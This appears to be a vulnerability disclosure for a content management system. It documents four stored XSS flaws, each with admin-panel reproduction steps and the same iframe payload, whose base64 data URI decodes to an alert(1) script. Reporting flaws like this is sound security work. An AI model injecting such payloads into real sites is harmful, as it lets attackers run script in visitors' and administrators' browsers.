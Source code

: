 
### Stored XSS #1:

1. Go to Content Admin > Blog > Add Blog
2. In the Extended blog content field paste the XSS payload

```
"><iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
```

### Stored XSS #2:

1. Go to Content Admin > Articles > Article
2. In the Article field paste the XSS payload

```
"><iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
```

### Stored XSS #3:

1. Go to Content Admin > News > Add News
2. In the Snippet field paste the XSS payload

```
"><iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
```

### Stored XSS #4:

1. Go to System Admin > Banners
2. In the Banner 1 field paste the XSS payload 

```
"><iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
```

